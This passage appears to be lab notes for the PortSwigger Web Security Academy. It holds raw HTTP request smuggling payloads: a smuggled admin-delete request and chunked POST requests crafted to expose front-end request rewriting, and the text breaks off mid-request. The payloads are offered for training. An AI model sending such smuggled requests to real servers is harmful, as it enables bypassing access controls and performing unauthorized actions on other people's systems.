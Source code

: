 45
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Foo: x

0


```

### Exploiting HTTP request smuggling to reveal front-end request rewriting

```
POST / HTTP/1.1
Host: 0ac30098036b8604c0c2483400490034.web-security-academy.net
Cookie: session=tI9xKyfdWLbk7tv6skkxIYsEZMpzDrBZ
Content-Length: 124
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0ac30098036b8604c0c2483400490034.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac30098036b8604c0c2483400490034.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test


```


```
POST / HTTP/1.1
Host: 0ac30098036b8604c0c2483400490034.web-security-academy.net
Cookie: session=tI9xKyfdWLbk7tv6skkxIYsEZMpzDrBZ
Content-Length: 121
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1